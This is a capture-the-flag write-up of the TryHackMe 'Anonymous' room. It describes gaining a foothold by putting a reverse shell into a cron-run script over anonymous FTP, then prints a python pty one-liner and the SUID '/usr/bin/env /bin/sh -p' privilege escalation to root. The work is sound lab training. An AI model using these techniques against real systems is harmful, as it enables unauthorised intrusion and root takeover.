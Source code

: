### THM Anonymous

Quickly here again.  Nmap scans bring back that we have ftp, ssh, and smb running on this device.  FTP gives me anonymous login and smb is accessible.  Check smb, find a couple pics of some corgos.  Cute pups but not what I'm here for.

FTP gives anonymous login and was able to find a script in there that runs automatically.

Use FTP to get the files.  Make sure to switch to binary as that will help the downloads go well.

```
ftp> binary
200 Switching to Binary mode.
ftp> mget *
mget clean.sh [anpqy?]? yes
229 Entering Extended Passive Mode (|||13680|)
150 Opening BINARY mode data connection for clean.sh (314 bytes).
100% |************************************************************************************|   314       91.80 KiB/s    00:00 ETA
226 Transfer complete.
314 bytes received in 00:00 (2.71 KiB/s)
mget removed_files.log [anpqy?]? yes
229 Entering Extended Passive Mode (|||28848|)
150 Opening BINARY mode data connection for removed_files.log (4085 bytes).
100% |************************************************************************************|  4085       52.64 MiB/s    00:00 ETA
226 Transfer complete.
4085 bytes received in 00:00 (37.36 KiB/s)
mget to_do.txt [anpqy?]? yes
229 Entering Extended Passive Mode (|||17890|)
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
100% |************************************************************************************|    68        1.70 MiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.59 KiB/s)
```

clean.sh is the one we're focused on.  We open it and put in a bash reverse shell one liner.  Then open a nc listener in a different tab and then we upload the new clean.sh file with the malicious payload.

```
ftp> put clean.sh
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||63096|)
150 Ok to send data.
100% |************************************************************************************|    55        1.19 MiB/s    00:00 ETA
226 Transfer complete.
55 bytes sent in 00:00 (0.24 KiB/s)
```

![foothold](/Images/THM7Anonymous/pic1.png)

At this point, uploaded and ran linpeas.sh and saw that `/usr/bin/env` has the SUID bit set.  Go to GTFObins and see that there is, in fact, an exploit for that one with SUID.

Tried it the first time and got the no tty present error.

So, I try and get a tty going with python.

```
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ /usr/bin/env /bin/sh -p
/usr/bin/env /bin/sh -p
# whoami
whoami
root
```

And we're now root!!  Another quick one.  Got 3 more to do today and 1 last section before I get started on my PNPT exam!!  Let's fkin go!!!

